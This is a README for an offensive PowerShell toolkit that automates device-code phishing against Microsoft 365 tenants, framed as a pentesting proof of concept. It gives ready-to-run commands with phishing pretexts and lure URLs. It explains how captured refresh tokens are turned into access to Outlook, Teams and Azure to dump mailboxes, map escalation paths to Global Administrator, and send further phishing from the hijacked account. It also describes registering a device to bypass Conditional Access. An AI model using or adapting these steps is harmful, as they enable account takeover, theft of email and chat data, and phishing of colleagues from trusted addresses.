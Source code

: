 ![image](./ascii.png)

### "If you only get one.."

### Overview
This is a proof-of-concept script kit to assist in device code phishing during Azure/O365 testing. This tool was made to solve one problem - If you only get one chance, and then kicked out immediately, what would you hope you could do in that window? This tool will send a device code in one of the email templates, loot that users email and teams, then send an email as that user to whoever we choose. Use your first target to phish your second from a trusted address. It has optional modules for azurehound and some other recon steps. 

We import TokenTactics and AADInternals, then trigger an authentication flow for the graph and request a device code that is used to sign in. The device code gets replaced in a template and a sign in is prompted for the sending user. This is your pretext. This will give us an access token, and our refresh token. We use our access token with Outlook to send the template to the first user with the codethey need to use. When they enter this code, we get a set of tokens for them. The refresh token allows us to request new access tokens for various other Microsoft services. By refreshing new access tokens for Azure Core Management, MSTeams, Outlook, etc, we're able to move from service to service and pillage what we need without signing in multiple times on multiple sites. This allows for repid exfiltration of data from multiple avenues quicker than an analyst can triage any forthcoming alert. By minting an Outlook token, we can use the new account to send emails to additional targets and control the users mailbox.   

Script will check your OS (Windows or Linux) and install the required modules and Azurehound binary needed for post-exploitation activity automatically. That said, this may be buggy on linux, I haven't put it through it's paces there.

### Usage
You can use a *very* important project manager as your initial access vector, or someone else you'd like to use to map the tenant and send a link internally to a payload hosted elsewhere. Add modules you wish to run as arguments. You won't need Azurehound, etc, every time, but is a good way to start.

The variable $firstUser is the initial one you want to hijack, $targetUser is the eventual target you hope to reach. Template will be sent first in the background, if the user approves, the message passed here will be emailed to them as the first victim.

WARNING: When you get your first bite, SAVE THAT TOKEN LOG. Get the users tokens, and use them for your foothold. You should have a ton of recon, use this info with these tokens and az cli/AzureAD module to make your next moves. The TokenLog gets refreshed every time you run the script. You'll lose them if you arent mindful. There's a couple scripts to help with this. The first one creates a loot folder and backs up the loot files. It clears them for the next run. This loot folder is in the .gitignore but you should get in the habit of clearing after each run (or open a PR and add a switch case for it)

#### Stash loot in the 'loot' folder  
```powershell
.\LootStash.ps1
```

#### Clear all loot from current dir and that folder when you're done
```powershell
.\ClearLoot.ps1
```

#### Install requirements, perform full recon using azuread, AADInternals, and Azurehound modules, attempt to use payroll account to phish a particular accountant
```powershell
$targetUser = "accountant@corpomax.com"
$firstUser = "payroll@corpomax.com"
$messageContent = "Hey guys, <p> do you have any idea what this is? We need to pay it really soon, but we're having trouble accounting for it: https://collections.azurewebsites.net/invoice </p>  <p> Sincerely Yours.</p>"
$subject = "Invoice #3389 for Professional Services "
$template = "adobe" # or chatgpt, bluebeam, bbb, one of the secret ones 

.\wrapper.ps1 -targetUser $targetUser -firstUser $firstUser -messageContent $messageContent -subject $subject -template $template -azurehound -recon -azuread -install
```

#### With Azurehound and No Installation, phish a PM to phish IT for installation of required software
```powershell
$targetUser = "helpdesk@corpomax.com"
$firstUser = "MaxBedroom@corpomax.com"
$messageContent = "Hey guys, <p> our client is asking us to install an addin, something to do with the 'net' framework and PDFs, sounds lame, haha. Can you take a look and see if we can get it installed? Thy're really breathing down our necks https://pdfutil.azurewebsites.net/addin </p> <p> Thanks guys you're the best, they should pay you more! </p> <p> Sincerely Yours.</p>"
$subject = "Software for Project Management"
$template = "bluebeam" # or chatgpt, bluebeam, bbb, one of the secret ones 

.\wrapper.ps1 -targetUser $targetUser -firstUser $firstUser -messageContent $messageContent -subject $subject -template $template -azurehound
```

#### Phishing Only
Similar scenario, but trying  to use a new employee to get to a full administrator user via the 'chatgpt' template, a little quicker with no installation or Azurehound switch 

```powershell
$targetUser = "admin@corpomax.com"
$firstUser = "newemployee@corpomax.com"
$messageContent = "Hey guys, <p> the client is asking us to install an addin, something to do with the 'period net' framework and PDFs, sounds gross, haha. Can you take a look and see if we can get it installed? Thy're really breathing down our necks https://pdfutil.azurewebsites.net/addin </p> <p> Thanks guys you're the unsung heroes of CorpoMax, they should pay you more! </p> <p> Sincerely Yours.</p>"
$subject = "Software for Project Management"
$template = "chatgpt"

.\wrapper.ps1 -targetUser $targetUser -firstUser $firstUser -messageContent $messageContent -subject $subject -template $template
```

### Modules
It's modular, azurehound is one, AADInternals recon, AzureAD enumeration, etc. Recon.ps1, azuread.ps1, azurehound.ps1 are standalones that take access tokens or whatever params needed to do the thing. You can easily rip these out and use them in your own madness, if you want. I tried to make things as flexible as possible. Once you've mapped the tenant, performed recon and built your new lists you may as well as just use it for additional phishing and omit those switches. 

### Templates
Adding a template to this is really easy. Look at the ones here and Replace.ps1, you can see we're looking for and replacing '(((VERIFICATION)))' in the html body. This is the device code that gets generated. If you place one in a new template and add a couple lines of code to Replace.ps1 and Next.ps1 you can use your own.

For replace.ps1, create a new elseif statement for the new template and a template for Chipotle, name the template chipotleHTML.htm and make sure it's creating new version by providing a destination path/filename for what 'replace' creates. I have it creating it in the template folder, it could be a temp folder, you can do whatever you want, I just like to use the repo folder as a workspace. Htm/HTML doesnt matter, consistency does, though. 

```powershell
elseif($template -eq "chipotle"){
    $sourceFile = ".\Templates\chipotleHTML.htm"
    $destinationFile = ".\Templates\chipotle.htm"
}
```

For next.ps1, add a switch and a subject, we need to parse what you want from the command line. If it's 'chipotle', put chipotle, 
```powershell

switch ($template) {
# Add a block with path and subject inside the template switch case
...  
    "chipotle" { 
        $templatePath = ".\Templates\chipotle.htm"
        $subjects = @("Chipotle wants you back.")
        break 
    }
...

}
```

### Phase 1 - Recon
If modules are specified, once you receive an access token, the script will automatically perform requested recon of tenant, user and groups using AADInternals or Azurehound. Can generate a list of users with detailed information (SIDs, valid sessions, phone number, identities) is exported and useable user list for the spreader function is generated. Groups, users, internal recon, etc output to json in the same directory as the script.

![image](https://github.com/MelloSec/PhirstPhish/assets/65114647/01e9fd43-b20f-48c2-a8b3-9fdc1b5ae6ad)

![image](https://github.com/MelloSec/PhirstPhish/assets/65114647/83a3398c-bf41-47e3-bfa6-e480bddd0fc2)

Using the latest version of Azurehound for your platform, the Azure tenant will be mapped and output to a format you can load into Neo4j for graphing attack paths. This will show you what the newly compromised account has access to and possible ways you can escalate your privileges across the tenant to gain Global Administrator / whatever you desire.

![image](https://github.com/MelloSec/PhirstPhish/assets/65114647/ec598ff5-e82d-4a36-acfb-f887e9b18b55)


### Phase 2 - Loot
It will dump the compromised users last 200 emails from their inbox and all their teams messages by default. Optional modules include azureHound, azureAd and Recon. If the azureAd module is used, a user list is generated for further phishing attacks, as well as groups. if the recon module is used, AADInternals authenticated recon modules will run.  

<b><u>WARNING:</u></b> Just to re-iterate that last bit.. this will export a lot of sensitive information to the folder you run this from, as that is it's intended purpose. Please clean up your workspace / don't commit the loot to main 


### Phase 3 - Spread
Specifying "-targetUser" and "-messageContent" will let you pass an email address and phishing pretext to use the compromised account as an internal relay and attempt to move laterally or capitalize on a trusted relationship with an external third party.


### Extras
Scripts\RoadTools.ps1 - proof of concept that uses TokenTactics to generate a token for RoadTools which will gather conditional access policy info and register a device that could bypass Conditonal Access. As is, play with it, make it your own.

V2 - Included the V2 fork of TokenTactics in the repo, just so you know it exists. It has additional features but at the time I made this tool they weren't playing nice and it wasn't worth trying to make it work. I think that's mostly fixed, if you want to try this script with V2, modify PhirstPhish.ps1 and insert the URL to the V2 repo https://github.com/f-bader/TokenTacticsV2 and try it? Shouldn't take much to make that work, but will give you access to the extended Continus Access Evaluation tokens, if ya nasty: https://learn.microsoft.com/en-us/entra/identity/conditional-access/concept-continuous-access-evaluation




### Acknowledgements 

Huge thanks to Bobby Cook https://github.com/boku7 and Beaux Bullock https://github.com/dafthack for all the amazing Azure/O365 pentesting resources and classes that got me started 

Shout-out to Steve Borosh https://github.com/rvrsh3ll for the amazing TokenTactics module used in Refreshing tokens and certain post-ex activites here, picking apart your code was hugely helpful in understanding this stuff.

Shout-out to the venerable Dr Nestori Syynimaa (@DrAzureAD), too, for laying all the groundwork with AADInternals https://github.com/Gerenios/AADInternals, used here extensively. Hell of a toolbox and his blog is like a free AzureAD pentesting e-book.

PRs welcome!